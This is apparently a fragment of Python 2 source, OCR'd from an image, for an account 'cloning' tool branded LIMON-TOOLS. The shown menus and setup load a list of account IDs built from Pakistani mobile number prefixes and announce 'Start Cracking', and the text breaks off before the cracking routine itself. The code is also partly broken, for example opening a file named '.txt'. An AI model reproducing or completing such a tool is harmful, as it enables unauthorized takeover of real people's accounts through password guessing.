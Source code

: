 def pilih_login():
    peak = raw_input("\n\033[1;95m ══CHOOSE : \033[1;93m")
    if peak =="":
        print "\x1b[1;97mFill In Correctly"
        pilih_login()
    elif peak =="1":
        Zeek()
def Zeek():
    os.system('clear')
    print logo1
    print '\x1b[1;93m[1] ══START CLONING  '
    time.sleep(0.10)
    print '\x1b[1;92m[2] ══EXIT'
    time.sleep(0.10)
    print '\x1b[1;95m[0] ══BACK '
    time.sleep(0.10)
    print '\x1b[1;96m ════RK'
    time.sleep(0.10)
    print '\x1b[1;97m════LIMON-TOOLS' 
    time.sleep(0.10)
    print '\x1b[1;91m ════DONT COPY MY SCRIPT'
    time.sleep(0.10)
    print '\x1b[1;94m════CP ID OPEN AFTER 3 DAYS ENJOY'
   
    time.sleep(0.05)
    action()

def action():
    peak = raw_input('\n\033[1;97m ══CHOOSE:\033[1;97m')
    if peak =='':
        print '[!] Fill In Correctly'
        action()
    elif peak =="1":              
        os.system("clear")
        print logo2
        print "\033[1;94mEnter any Pakistan Mobile code Number"+'\n'
        print '\033[1;92mEnter any code 01 02 03 04 05 06 07 08 10 11 12 13 14 15 16 20 21 22 23 24 30 31 32 33 34 35 36 40 41 42 43 44 45 46 47 48 49'
        for i in numm:
            print('x' * i)
        try:
            c = raw_input("\033[1;97mCHOOSE : ")
            k="03"
            idlist = ('.txt')
            for line in open(idlist,"r").readlines():
                id.append(line.strip())
        except IOError:
            print ("[!] File Not Found")
            raw_input("\n[ Back ]")
            blackmafiax()
    elif peak =='0':
        login()
    else:
        print '[!] Fill In Correctly'
        action()
    print 50* '\033[1;94m-'
    xxx = str(len(id))
    jalan ('\033[1;91m Total ids Accounts: '+xxx)
    jalan ('\033[1;92mSim code you choose: '+c)
    jalan ("\033[1;93mWait  Start Cracking...")
    jalan ("\033[1;94mTo Stop Process Press Ctrl+z")
    print 50* '\033[1;97m-'
    def main(arg):
        global cpb,oks